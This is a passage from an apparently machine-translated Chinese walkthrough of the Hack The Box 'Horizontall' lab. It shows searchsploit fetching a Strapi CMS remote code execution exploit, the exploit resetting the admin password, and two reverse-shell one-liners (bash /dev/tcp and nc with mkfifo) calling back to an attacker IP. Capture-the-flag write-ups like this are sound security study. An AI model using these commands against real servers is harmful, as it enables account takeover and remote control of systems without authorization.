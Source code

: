 Searchsploit 扫描 strapi 漏洞

让我们抓住最后一个漏洞来看看:

```
┌──(root💀kali)-[~/htb/horizontall]
└─# searchsploit -m multiple/webapps/50239.py
  Exploit: Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50239
     Path: /usr/share/exploitdb/exploits/multiple/webapps/50239.py
File Type: Python script, ASCII text executable
Copied to: /root/htb/horizontall/50239.py
```

# 剥削斯特拉皮

阅读脚本，我们只需执行它并指向网站:

```
┌──(root💀kali)-[~/htb/horizontall]
└─# python3 50239.py http://api-prod.horizontall.htb 
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit

[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGci<SNIP>swArk82os
$>
```

该漏洞重置了管理员用户的密码，并给了我们一个命令提示:

```
$> whoami
[+] Triggering Remote code execution
[*] Remember this is a blind RCE don't expect to see output
{"statusCode":400,"error":"Bad Request","message":[{"messages":[{"id":"An error occurred"}]}]}
```

好吧，所以我不能用它来输出到终端，让我们尝试一个外壳:

```
$> bash -i >& /dev/tcp/10.10.14.214/4444 0>&1
[+] Triggering Remote code execution
[*] Remember this is a blind RCE don't expect to see output
{"statusCode":400,"error":"Bad Request","message":[{"messages":[{"id":"An error occurred"}]}]}
```

# 反向外壳

我没有从那一个得到连接，尝试另一个类型:

```
$> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.214 4444 >/tmp/f
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```
